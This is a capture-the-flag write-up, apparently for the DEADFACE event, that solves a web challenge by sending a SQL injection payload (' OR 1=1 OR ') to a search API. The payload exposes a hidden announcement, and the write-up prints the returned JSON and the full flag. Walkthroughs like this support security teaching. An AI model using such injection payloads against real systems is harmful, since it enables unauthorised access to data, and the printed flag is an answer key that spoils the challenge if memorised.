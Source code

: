 > [!abstract] Challenge Description
> > @syyntax
> ## 60
> DEADFACE was able to retrieve an announcement that was hidden by administrators. This announcement contained sensitive information (flag) that DEADFACE was able to compromise. Find the flag associated with the hidden announcement.
> 
> Submit the flag as `deadface{flag text}`.
> 
> [http://env01.deadface.io:8080](http://env01.deadface.io:8080/)

On the announcement page there's a hint: `Hidden announcements are not displayed in this interface. Database queries may reveal additional records...`

It is embedded so there's no url spoofing to be done.

In console, it suggests `http://env01.deadface.io:8080/api/search.php?q=test&type=announcements` doing this shows this result.
```json
{
    "status": "success",
    "type": "announcements",
    "query": "test",
    "count": 0,
    "results": []
}
```

`http://env01.deadface.io:8080/api/search.php?q=%20&type=announcements`
```json
{
    "status": "success",
    "type": "announcements",
    "query": " ",
    "count": 4,
    "results": [
        {
            "title": "Welcome to Fall 2025",
            "content": "Welcome back students! We are excited for another great semester at Night Vale University.",
            "author": "Dean Morrison",
            "posted_at": "2025-10-25 18:26:37"
        },
        {
            "title": "Library Hours Extended",
            "content": "The university library will now be open until midnight on weekdays.",
            "author": "Library Services",
            "posted_at": "2025-10-25 18:26:37"
        },
        {
            "title": "Campus Security Alert",
            "content": "Please report any suspicious activity to campus security immediately.",
            "author": "Campus Police",
            "posted_at": "2025-10-25 18:26:37"
        },
        {
            "title": "Server Maintenance",
            "content": "Scheduled maintenance on October 28th from 2-4 AM.",
            "author": "IT Department",
            "posted_at": "2025-10-25 18:26:37"
        }
    ]
}
```

http://env01.deadface.io:8080/api/search.php?q=%27%20OR%201=1%20OR%20%27&type=announcements
`' OR 1=1 OR '`
```json
{
    "status": "success",
    "type": "announcements",
    "query": "' OR 1=1 OR '",
    "count": 5,
    "results": [
        {
            "title": "Welcome to Fall 2025",
            "content": "Welcome back students! We are excited for another great semester at Night Vale University.",
            "author": "Dean Morrison",
            "posted_at": "2025-10-25 18:26:37"
        },
        {
            "title": "Library Hours Extended",
            "content": "The university library will now be open until midnight on weekdays.",
            "author": "Library Services",
            "posted_at": "2025-10-25 18:26:37"
        },
        {
            "title": "Campus Security Alert",
            "content": "Please report any suspicious activity to campus security immediately.",
            "author": "Campus Police",
            "posted_at": "2025-10-25 18:26:37"
        },
        {
            "title": "Restricted Access Notice",
            "content": "FLAG: deadface{h1dd3n_4nn0unc3m3nts_r3v34l_s3cr3ts}",
            "author": "System Administrator",
            "posted_at": "2025-10-25 18:26:37"
        },
        {
            "title": "Server Maintenance",
            "content": "Scheduled maintenance on October 28th from 2-4 AM.",
            "author": "IT Department",
            "posted_at": "2025-10-25 18:26:37"
        }
    ]
}
```

---
> [!success] Flag: `deadface{h1dd3n_4nn0unc3m3nts_r3v34l_s3cr3ts}`
